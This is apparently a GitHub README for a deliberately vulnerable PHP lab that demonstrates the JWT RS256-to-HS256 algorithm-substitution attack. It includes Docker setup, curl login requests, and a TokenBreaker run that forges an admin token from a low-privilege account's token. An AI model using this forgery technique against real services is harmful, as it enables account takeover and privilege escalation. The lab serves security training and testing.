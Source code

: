 ## Php-Jwt-Substitution-Attack_Rsa256_to_Hs256


JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp 

https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf

https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html


## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-php-rsa256tohs256


    docker run -tid -p 9090:80 mhnamadi/jwt-php-rsa256tohs256
    
    docker ps 
    
    docker exec -it ContainerID bash 
    
    service apache2 start
    
    service mysql start 
    
    Done :))    
    
## Description 

We have 2 account securestore:securestore and admin:admin and we want to account takeover from securestore to admin account with this attack

## Payload 
  
1. Login to securestore and get jwt RSA256   
``` 
curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 69' -H $'User-Agent:Mozilla/5.0(Macintosh; Intel Mac OS X 10.15;rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"securestore\",\"pass\":\"securestore\"}}' $'http://192.168.1.104:9090/v3/
```

![Getting Started](80.png)


2. Login to admin and get jwt RSA256
```
curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 57' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"admin\",\"pass\":\"admin\"}}' $'http://192.168.1.104:9090/v3/'
```

![Getting Started](81.png)

3. Lets decode  both tokens and see what is inside

![Getting Started](82.png)


![Getting Started](83.png)


4. We want to add "userId":"admin","isAdmin":"true" to secure store account. [TokenBreaker](https://github.com/cyberblackhole/TokenBreaker) is one of the best tools for JWT Attack
    
## Attack 
Use JWT securestore token and change payload
```
mhs-MacBook-Pro:TokenBreaker mhn$ python3 RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2NDU0Nzc0NjYsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4NjQ2NiwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.NX6p76T2p5-DfhJcLHTJ64F_-xv6pl1iRFCrm4gDM-UPNpjmm2_1F0pfplcfrlIJEDgBQnMPe3245RLXk_gMWstJ1T3QehJIOMcBTruxbwzOUaOdF3IY-eBfeLgH0854xYnf0MW6rtezWD4a66VecsmjV3sUtRUcujF5ytpx_zqdAyEKT7dZTNLo-Wi8hTszLVhEFy_amLfIKOoWsDh43To3bvJU6OJZ1m8zAFc3Ur87GrL92wv1TToDDvmdrF9uubuZxD1tW6pek0U--DQLmcgegsKLl4_JPQNdxfmS5Eycku09IaA-4a68nrEZOPfyq-1-0lTaB_xlcDVQfFAT-g -p public.pem 


[<] Enter Your Payload value: {"iat":1645479477,"iss":"localhost","exp":1645488477,"userId":"admin","isAdmin":"true"}

[+] Successfully Encoded Token: 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NDU0Nzk0NzcsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4ODQ3NywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.MdUsaQIPcVsIggim6PKt91wTsTFcWQwwwI5UIX048i8
```

![Getting Started](84.png)

## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md

## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
